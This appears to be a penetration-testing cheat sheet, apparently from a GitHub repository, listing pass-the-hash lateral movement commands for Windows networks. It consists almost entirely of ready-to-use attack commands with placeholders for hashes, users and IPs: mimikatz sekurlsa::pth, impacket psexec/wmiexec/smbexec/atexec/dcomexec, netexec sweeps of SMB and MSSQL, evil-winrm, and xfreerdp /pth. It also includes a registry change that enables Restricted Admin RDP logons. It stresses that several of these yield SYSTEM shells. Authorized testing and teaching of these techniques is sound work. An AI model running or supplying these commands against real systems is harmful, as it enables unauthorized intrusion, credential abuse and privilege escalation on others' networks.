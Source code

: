 # Pass-the-Hash Lateral Movement 

## Tools: impacket , psexec , crackmapexec/netexec , evil-winrm , xfreerdp/remmina , smbclient , mimikatz

# Interactive shell

#### 1) mimikatz

 - mimikatz "privilege::debug sekurlsa::pth /user USER /domain:DOMAIN /ntlm:HASH

#### 2) psexec (Impacket and Windows)

 - psexec.exe -AcceptEULA \\IP

 - impacket-psexec -hashes":HASH" USER@IP

## TIP: Both of these techniques give NT Authority/System shell (System/Admin access)

# Pseudo-shell (File write and read) (System/Admin access)

#### 1) crackmapexec/netexec

 - netexec smb IP_RANGE -u USER -d DOMAIN -H ':HASH'

 - netexec smb IP_RANGE -u USER -H ':HASH' --local-auth

#### 2) Impacket Library

 - atexec.py -hashes ":HASH" USER@IP "COMMAND"

 - smbexec.py -hashes ":HASH" USER@IP

## These techniques give NT Authority/System shell

 - wmiexec.py -hashes ":HASH" USER@IP

 - dcomexec.py -hashes ":HASH" USER@IP

# WinRM 

#### 1) evil-winrm

 - evil-winrm -i IP -u USER -H HASH

# SMB

#### 1) smbclient

 - smbclient.py -hashes ":HASH" USER@IP (Authenticate, then search files)

# RDP

#### 1) reg.py and xfreerdp/remmina

 - reg.py DOMAIN/USER@IP -hashes ':HASH' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisabledRestrictedAdmin' -vt 'REG_DWORD' -vd '0'

 - xfreerdp /u:USER /d:DOMAIN /pth:HASH /v:IP

# MSSQL

#### 1) crackmapexec/netexec

 - netexec mssql IP_RANGE -H ':HASH'

#### 2) mssqlclient.py

 - mssqlclient.py -windows-auth -hashes ":HASH" DOMAIN/USER@IP
